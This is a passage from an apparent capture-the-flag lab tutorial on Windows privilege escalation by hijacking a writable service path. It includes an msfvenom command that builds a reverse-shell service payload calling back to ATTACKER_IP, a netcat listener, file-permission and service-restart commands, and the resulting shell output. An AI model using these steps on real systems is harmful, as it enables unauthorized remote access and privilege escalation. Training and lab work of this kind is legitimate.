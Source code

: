 The `BUILTIN\\Users` group has **AD** and **WD** privileges, allowing the user to create subdirectories and files, respectively.

The process of creating an exe-service payload with msfvenom and  transferring it to the target host is the same as before, so feel free  to create the following payload and upload it to the server as before.  We will also start a listener to receive the reverse shell when it gets  executed:

- **Kali Linux**        

```shell-session
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe

user@attackerpc$ nc -lvp 4446
        
```

Once the payload is in the server, move it to any of the locations  where hijacking might occur. In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:

- **Command Prompt**        

```shell-session
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
        
```

Once the service gets restarted, your payload should execute:

- **Command Prompt**        

```shell-session
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
        
```

As a result, you'll get a reverse shell with svcusr2 privileges:

- **Kali Linux**        

```shell-session
user@attackerpc$ nc -lvp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
        
```

Go to svcusr2 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.
